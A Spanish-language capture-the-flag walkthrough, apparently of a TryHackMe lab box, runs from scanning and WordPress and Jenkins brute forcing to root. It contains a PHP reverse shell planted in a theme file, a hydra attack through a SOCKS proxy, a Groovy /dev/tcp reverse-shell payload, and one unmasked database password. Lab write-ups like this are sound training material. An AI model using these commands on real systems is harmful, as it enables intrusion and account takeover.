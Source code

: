 1. **Modificar el archivo /etc/hosts**

       - IP internal.thm

2. **Nmap** 

       - sudo nmap -sV -sC -Pn -v 10.10.17.84 -o port_scan

3. **Uso de dirb**
 ````
---- Scanning URL: http://10.10.17.84/ ----
==> DIRECTORY: http://10.10.17.84/blog/
+ http://10.10.17.84/index.html (CODE:200|SIZE:10918)
==> DIRECTORY: http://10.10.17.84/javascript/
==> DIRECTORY: http://10.10.17.84/phpmyadmin/
+ http://10.10.17.84/server-status (CODE:403|SIZE:276)
==> DIRECTORY: http://10.10.17.84/wordpress/
 ````

4. **Escaneo en Wordpress**
 ````
[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://internal.thm/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 
[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.6
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a f>
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'
  ````
5. **Fuerza bruta en Wordpress**

        - wpscan --url http://internal.thm/blog/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames admin --max-threads 50
        ````
        [!] Valid Combinations Found:
        | Username: admin, Password: *******
        Correo: admin@internal.thm
        ````
6. **Creamos una reverse shell en Wordpress**

        -  Vamos a los temas
        - Customize
        - Inyectamos en 404.php la reverse shell --> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
        - Nos conectamos: http://10.10.17.84/wordpress/wp-content/themes/twentyseventeen/404.php
        - Estamos a la escucha: nc -lvp 4444
7. **Usuario phpmyadmin**

        - Encontramos un usuario pero no podemo acceder a su directorio. Seguimos buscando:
        - En /etc/phmyadmin encontramos unas credenciales:
                -- cat config-db.php
                
         ````
         <?php
        ##
        ## database access settings in php format
        ## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
        ## by /usr/sbin/dbconfig-generate-include
        ##
        ## by default this file is managed via ucf, so you shouldn't have to
        ## worry about manual changes being silently discarded.  *however*,
        ## you'll probably also want to edit the configuration file mentioned
        ## above too.
        ##
        $dbuser='phpmyadmin';
        $dbpass='B2Ud4fEOZmVq';
        ````
        
8.  **Accedemos y no se encuentra nada.**
9. **Tras una larga busqueda de versiones, exploits, etc. Encontramos en el directorio /opt un .txt con credenciales.**
        
        - aubreanna:*****

10. **Nos conectamos por SSH y nos encontramos con el archivo jenkins.txt:**
        
         Internal Jenkins service is running on 172.17.0.2:8080

11. **Creamos un proxy socks para ver que nos encontramos**
        . ssh -D "10101" -q -N -f aubreanna@10.10.17.84
        . Configuramos el proxy en firefox y nos conectamos.
        . Nos encontramos un login de jenkins.
        
12. **Realizamos un ataque de fuerza bruta contra el servicio**

        - proxychains hydra 172.17.0.2 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or >
        
        - Contraseña encontrada:
        
       ````
       [proxychains] Strict chain  ...  127.0.0.1:10101  ...  172.17.0.2:8080 [proxychains] Strict chain  ...  127.0.0.1:10101  ...  172.17.0.2:8080 [8080]            [http-post-form] host: 172.17.0.2
       login: admin   password: *******
       [STATUS] attack finished for 172.17.0.2 (valid pair found)
       1 of 1 target successfully completed, 1 valid password found
       ````
13. **Creamos una reverse shell en jenkins.**

        - Manage --> Script console
        - Groovy script:
     
       ````
       r = Runtime.getRuntime()
       p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.17.84/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
       p.waitFor()
       ````


14. **Tenemos una shell como usuario jenkins.**

        - En el directorio /opt --> note.txt
        - root:*******

15. **Accedemos por ssh**

        - root.txt
        - Obtenemos la flag: ***********


